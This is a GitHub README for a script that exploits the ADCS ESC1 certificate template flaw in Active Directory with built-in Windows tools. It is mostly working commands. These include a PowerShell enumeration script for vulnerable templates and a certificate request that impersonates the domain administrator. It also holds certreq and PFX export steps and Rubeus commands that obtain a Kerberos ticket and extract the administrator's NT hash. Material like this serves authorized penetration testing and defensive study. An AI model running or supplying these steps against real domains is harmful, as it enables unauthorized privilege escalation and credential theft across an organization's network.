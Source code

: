 # ESC1_Build_In_Script

This script is designed to assist penetration testers and Red Teamers in conducting security assessments.

When operating in "live infrastructure," leveraging automation tools signed by native security and control mechanisms within Active Directory environments can introduce challenges, as these tools are tightly integrated with domain infrastructure.

In this guide, I will demonstrate how to exploit the ESC1 vulnerability in an Active Directory environment with Active Directory Certificate Services (ADCS). This will be achieved without relying on third-party tools, using only built-in Windows utilities.

The process includes:

Identifying a vulnerable certificate template configured with misconfigurations that allow unauthorized certificate enrollment.
Requesting a certificate on behalf of any user in the domain by exploiting the identified vulnerable template.
Utilizing the certificate for impersonation to escalate privileges or access restricted resources.
This demonstration highlights the importance of proper certificate template hardening and serves as a practical guide to understanding the risks associated with improperly secured ADCS implementations.

This guide is intended for authorized security assessments only. Unauthorized use or actions without proper consent may violate laws and regulations. Always ensure you have explicit permission before conducting such activities.

Enjoy learning and, most importantly, stay safe!

## **Step-by-Step Instructions**

### 1. **Find The Vulnerable Templates:**
```
$templates = certutil -v -template | Out-String

$templateBlocks = $templates -split "Template\["

foreach ($block in $templateBlocks) {

    if ($block -match "TemplatePropCommonName = (.+)") {
        $templateName = $matches[1]
    } else {
        continue
    }


    $hasClientAuth = $block -match "1\.3\.6\.1\.5\.5\.7\.3\.2"


    $hasSupplyInRequest = $block -match "CT_FLAG_INCLUDE_SYMMETRIC_ALGORITHMS"


    $hasEnrollPermissions = $block -match "Allow Enroll.*Authenticated Users" -or $block -match "Allow Enroll.*Domain Users"

    if ($hasClientAuth -and $hasSupplyInRequest -and $hasEnrollPermissions) {
        Write-Output "Template: $templateName"
        Write-Output "  - Client Authentication EKU Found"
        Write-Output "  - Supply in Request Found"
        Write-Output "  - Enroll Permission for Authenticated Users or Domain Users Found"
        Write-Output ""
    }
}
```

### 2. **Create an INF file**
```ini
[Version]
Signature="$Windows NT$"

[NewRequest]
Subject = "CN=administrator, OU=Users, DC=shkud, DC=local" 
KeySpec = 1
KeyLength = 2048
Exportable = TRUE
MachineKeySet = FALSE
ProviderName = "Microsoft Enhanced Cryptographic Provider v1.0"
ProviderType = 12
RequestType = PKCS10
KeyUsage = 0xa0

[EnhancedKeyUsageExtension]
OID=1.3.6.1.5.5.7.3.2

[Extensions]
2.5.29.17 = "{text}"
_continue_ = "dns=shkud.local&upn=administrator@shkud.local"
```

Change the Subject record to the Distinguished Name (DN) of the user account you want to impersonate:
```
Subject = "CN=administrator, OU=Users, DC=shkud, DC=local"
```

Additionally, update the continue record as well:
```
_continue_ = "dns=shkud.local&upn=administrator@shkud.local"
```

### 3. **After creating the INF file, generate a CSR file using the following command:**
```
certreq -new My_request.inf My_request.csr
```

### 4. **Next, submit the CSR to the CA server, specifying the desired certificate template, and save the issued certificate:**
```
certreq -submit -attrib "CertificateTemplate:My_Template" My_request.csr My_Cert.cer
```

### 5. **Finally, accept and install the issued certificate using the following command:**
```
certreq -accept My_Cert.cer
```

### 6. **Next, locate the Thumbprint of the certificate by running the following command:**
```
Get-ChildItem Cert:\CurrentUser\My
```

### 7. **Afterward, generate a PFX file by executing the following commands:**
```
$password = ConvertTo-SecureString -String '1qaz!QAZ' -AsPlainText -Force
Export-PfxCertificate -Cert Cert:\CurrentUser\My\5440925da4167c5f92cd9cf66a4f68622f63e1c7 -FilePath administrator.pfx -Password $password
```

### 8. **Now, with the PFX file, you can use Rubeus to request a TGT (Ticket Granting Ticket) using the certificate. Execute the following command:**
```
.\Rubeus.exe asktgt /user:administrator /certificate:administrator.pfx /password:1qaz!QAZ /dc:dc.shkud.local /domain:shkud.local /ptt
```

Of course, since we're working with the PKINIT protocol, we can exploit the use of the User-to-User (U2U) mechanism. This allows us to request a TGS (Ticket Granting Service) for a service that belongs to ourselves (yes, it sounds strange, but it works).

The TGS ticket we receive will include a PAC (Privilege Attribute Certificate), and within that PAC, we can extract the NT Hash of the user account we impersonated.

Just add the /getcredentials flag with the rubeus tool:
```
.\Rubeus.exe asktgt /user:administrator /certificate:administrator.pfx /password:1qaz!QAZ /dc:dc.shkud.local /domain:shkud.local /getcredentials
```
